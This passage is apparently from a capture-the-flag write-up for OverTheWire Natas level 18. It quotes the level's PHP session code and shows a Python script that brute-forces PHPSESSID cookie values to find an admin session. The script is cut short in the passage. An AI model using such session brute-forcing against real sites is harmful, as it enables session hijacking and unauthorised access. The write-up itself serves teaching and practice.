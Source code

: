 
In the case it's true, a function that prints the credentials is called, printing our password:

```
function print_credentials() { /* {{{ */
 if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
 print "You are an admin. The credentials for the next level are:<br>";
 print "<pre>Username: natas19\n";
 print "Password: <censored></pre>";
 } else {
 print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
 }
}
```

If *%my_session* is not true, it will look to the HTTP request and search for username and password. If it finds them, it creates a session id:

```
function isValidAdminLogin() { /* {{{ */
 if($_REQUEST["username"] == "admin") {
 /* This method of authentication appears to be unsafe and has been disabled for now. */
 //return 1;
 }
 return 0;
```






So, in summary, we have a function that starts the session, first checking if the session id is in the cookie, and if this session id is a number. If true, it checks if it's a fresh session. Then, it checks if the word *admin* is in [SESSION_ID]. If not, it invalidates the session.

[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID

If the SESSION_ID is the admin session ID, the password for the next is shown.

After that, it calls PHP's [session_starts()].

The session ID is given by the variable *PHPSESSID*, and that's what we are going to brute force to get our password.






The variable [$_REQUEST] is an array that by default contains the contents of *$_GET*, *$_POST* and *$_COOKIE*.

[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php

[session_starts()]: http://php.net/manual/en/function.session-start.php

#### Crafting the attack:

We write the following script:

```python
import requests

def brute_force_password(AUTH, URL, PAYLOAD, MAXID):
 for i in range(MAXID):
 HEADER ={'Cookie':'PHPSESSID=' + str(i)}
 r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
 if "You are an admin" in r.text:
 print(r.text)
 print(r.url)
 print(str(i))

if __name__ == '__main__':
 AUTH = ('natas18', '*************************')
 URL = 'http://natas18.natas.labs.overthewire.org/index.php?'

```

[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits